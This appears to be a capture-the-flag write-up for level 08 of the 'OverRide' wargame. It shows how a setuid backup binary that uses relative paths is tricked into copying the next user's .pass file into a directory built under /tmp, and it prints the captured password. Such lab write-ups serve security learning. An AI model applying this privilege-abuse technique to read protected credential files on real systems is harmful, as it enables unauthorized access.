 # Level 08

Once logged in, you will see a binary, AND a directory name `backups`

```
$ ssh localhost -p 4242 -l level08
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level08@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
level08@OverRide:~$ ls
backups  level08
level08@OverRide:~$ ls -ls
total 16
 0 drwxrwx---+ 1 level09 users    60 Oct 19  2016 backups
16 -rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08
level08@OverRide:~$
```

by running the program, it asks to provide a filepath. A .log file is located in `backups` directory, so let's try giving the path, but it fails to open the file, and the prompt shows the path differ from one given.

```
level08@OverRide:~$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
level08@OverRide:~$ ./level08 ./backups/.log
ERROR: Failed to open ./backups/./backups/.log
level08@OverRide:~$
```

By decompiling the code, the program consist of 3 steps backing up the file given path.
1. the program attempts to open `./backups/.log` file for backup. If fails, the program will exit
  - the log_wrapper function will execute for logging the file
  - ** The path is not absolute, it's relative path **
2. the program will try opening the file from given path. If fails, the program will exit.
3. the program will copy the contents into the `./backups/[filename]`, if it fails to create the file, the program will exit.
4. after the program finishes, the program will end.
  - the log_wrapper function will execute for logging the file

So the following would not be able to work, since there is no permission given to `level8` to open the file for `level9`

```
level08@OverRide:~$ ./level08 /home/user/level9/.pass
ERROR: Failed to open /home/user/level9/.pass
level08@OverRide:~$
```

Since you cannot create any files in home directory (because of the permission), let's create a file on the directory `/tmp`

```
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/
home/ .log
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
level08@OverRide:/tmp$
```
